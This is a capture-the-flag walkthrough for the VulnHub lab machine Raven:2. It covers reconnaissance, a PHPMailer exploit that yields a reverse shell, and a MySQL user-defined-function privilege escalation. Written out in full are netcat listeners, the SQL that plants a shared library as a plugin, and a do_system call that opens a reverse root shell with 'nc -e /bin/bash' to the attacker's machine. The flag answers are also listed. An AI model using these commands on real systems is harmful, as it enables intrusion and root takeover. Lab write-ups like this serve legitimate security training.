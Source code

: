 

# Raven: 2 Walkthrough

**VulnHub Link:** [Raven:2](https://www.vulnhub.com/entry/raven-2,269/)
**Difficulty:** Easy
**Release Date:** 9 Nov 2018


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.160

dirb 192.168.100.160


## 2.Web Enumeration

we found out website use wordpress

sudo echo 'raven.local		192.168.100.160' > /etc/hosts

wpscan --url 'http://raven2.local/wordpress' -e ap,u

flag1 found from http://192.168.100.160/vendor/PATH
flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}

we obtain flag3 from image 
flag3{a0f568aa9de277887f37730d71520d9b}

michael and steven users found

## 3.Exploitation

we found an exploit related to phpmailer

wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/Raven%3A2/phpmailer.py

we change host and port in phpmailer.py and run

in another terminal ---> rlwrap nc -nvlp 1234

python phpmailer.py , shell obtained..

flag2 found from /var/www/
flag2{6a8ed560f0b5358ecf844108048eb337} 


then we found mysql root password from /var/www/html/wordpress/wp-config.php

wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/Raven%3A2/raven.c

gcc -g -fPIC -shared -o raven.so raven.c

we send this raven.so to attack machine

## 4.Privilege Escalation

```bash
mysql -u root -p R@v3nSecurity```

```use mysql;```
```>>>create table raven(line blob);```
```>>>insert into raven values(load_file('/var/tmp/raven.so'));```
```>>>select *from raven into dumpfile "/usr/lib/mysql/plugin/raven.so";```
```>>>create function do_system returns integer soname 'raven.so';```
```>>>select do_system("nc -nv 192.168.100.14 4444 -e /bin/bash"); ---> in another terminal we run ---> nc -nvlp 4444```

we obtain root shell and flag4 found...!
